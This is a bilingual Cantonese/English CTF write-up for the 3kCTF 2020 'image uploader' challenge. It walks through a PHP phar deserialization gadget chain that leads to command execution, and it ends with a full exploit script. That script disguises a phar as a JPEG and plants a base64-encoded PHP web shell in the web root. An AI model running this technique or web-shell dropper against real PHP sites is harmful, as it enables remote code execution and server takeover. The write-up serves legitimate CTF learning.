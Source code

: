 # 3kCTF 2020: image uploader

### (Web, 498 pts, 5 solves)

Description
> challenge

> source

> Author: Dali

## 題解 (Walkthrough)
我知你睇唔明廣東話架啦. 今次有翻譯. 
> I know you don't understand Cantonese. This time got translation.

個 description 得兩條[奸笑5678](https://www.google.com/search?q=goodsmile+5678). 是但啦有醬油有計傾. 
> (Some unimportant gibberish)

一開 `index.php` 就見到 `include('old.php');//todo remove this useless file :\`
> After opening `index.php` then we can see that include stuff...

明眼人一睇就知係伏啦. 一睇兩個 Class 重唔係玩 unserialize. 
> Obviously it is the vulnerable point. It contains 2 classes so obviously it is about unserialize.

碌落 D (唔好譯啦你譯唔到個 D 架啦) 個 index.php 見到 file_get_contents. 條件反射 phar unserialize 
> Scroll down [Don't translate that "D", you can't] that index.php, we can see `file_get_contents`. It immediately links to phar unserialize

有個 `upload.php` 真係可以 upload 野. 不過會 check `getimagesize` 同 `image/jpeg` 
> There is an `upload.php` that can really upload things. But it checks with `getimagesize` and `image/jpeg`.

睇返個 `old.php`, 又係驗眼嘅時間. 最底有個 `$data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;` 但係無咩用.
> Let's go back to `old.php` and check our eyesight. The bottom `$data = "<?php...` looks interesting but unless.

除非個 `sprintf('%012d', $expire)` 可以整走個 `exit()` 啦. 
> Unless `sprintf('%012d', $expire)` could be used to get rid of that `exit()`.

再碌上 D 見到個詭異嘅 variable function `return $serialize($data);`. 咁開心.
> Scroll up a bit then we can see a weird variable function `return $serialize($data);`. So exciting.

所以如果將 `$this->options['serialize']` 改做 `system` 就可以行 `system`.
> So if we set `$this->options['serialize']` to `system` then we could run `system`.

但係個 `$data` 要點砌呢. 根據所謂 POP 可以 trace 到:
> But how can we control `$data`? According to the so-called Property-Oriented Programming, you can trace like this:

`$this->options['serialize']($data) //cl2->serialize` 

=> `$this->serialize($value) //cl2->set` 

=> `$this->store->set($this->key, $this->getForStorage(), $this->expire); //cl1->save`

=> `return json_encode([$this->cleanContents($this->cache), $this->complete]); //cl1->getForStorage()`

首先個 `$data` 有少少限制. 因為係 `json_encode` 個 Array.
> First, the `$data` is a bit restricted. Because it is constructed by `json_encode`-ing an array.

不過你想用 `system` 行 command 其實可以好求其. 好似咩 `$(ls)`.
> But if you just need to use `system` to execute command, it is pretty flexible. Like using `$(ls)`.

最後可以砌到好似 `system('["$(ls)",0]')`.
> At the end of the day we should be able to construct like `system('["$(ls)",0]')`.

要 trigger `cl1->save`, destructor 個 `$this->autosave` 要 false.
> If you want to trigger `cl1->save`, in the destructor, `$this->autosave` should be false.

依家有齊啲餡啦. 要搵返 phar 個 payload.
> We are cooking with gas. Now we need to get the phar payload.

邊鬼個會記得點寫. 抄返自己個威噏.
> Who the heck will remember how to write the payload. Just copy my own write-up.

https://github.com/ozetta/ctf-challenges/wiki/Envy-(Tangerine)

由 `$p = new Phar('malware.phar');` 果行抄起 (好似係)
> Copy the payload starting from `$p = new Phar('malware.phar');`

上面記得抄返個 Class definition 同埋改晒 D property 佢.
> Remember to copy the class definitions and change the properties to the desired one.

個 `getimagesize` 同 `image/jpeg` 點算? 求其攝個 jpg 向頭咪得囉.
> How to tackle `getimagesize` and `image/jpeg`? Just inject a jpg file in front.

---
## Final payload
```
<?php

class cl1 {
    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
        //add your own properties
        $this->cache = ['$(echo PD89YCRfR0VUWzBdYDs= | base64 -d > /var/www/html/up/z.php)'];
        $this->autosave = 0;
        $this->complete = 0;
    }
}

class cl2 {
    public function __construct(){
    	//add your own properties
    	$this->options['serialize'] = "system";
    	$this->writeTimes = 0;
     	$this->options['prefix'] = '';
     	$this->options['data_compress'] = 0;
    }
}

$x = new cl1(new cl2(),"z",0);
$p = new Phar('malware.phar');
$p->startBuffering();
$p->addFromString("z","");
$j = file_get_contents("1.jpg");
$p->setStub($j."<?php __HALT_COMPILER(); ? >");
$p->setMetadata($x);
$p->stopBuffering();
$file = file('malware.phar');
```

---
之後 upload 個「圖」, 出返個 "filename.jpg". 之後讀 `php://filter/convert.base64-encode/resource=phar:///var/www/html/up/filename`.
> Then upload that "image", will return "filename.jpg". Then access `php://filter/convert.base64-encode/resource=phar:///var/www/html/up/filename`.

之後點玩自己諗啦. 提示: 估下 `PD89YCRfR0VUWzBdYDs=` 係咩先.
> The rest is left as an exercise for the readers. (Hint: decode `PD89YCRfR0VUWzBdYDs=`)


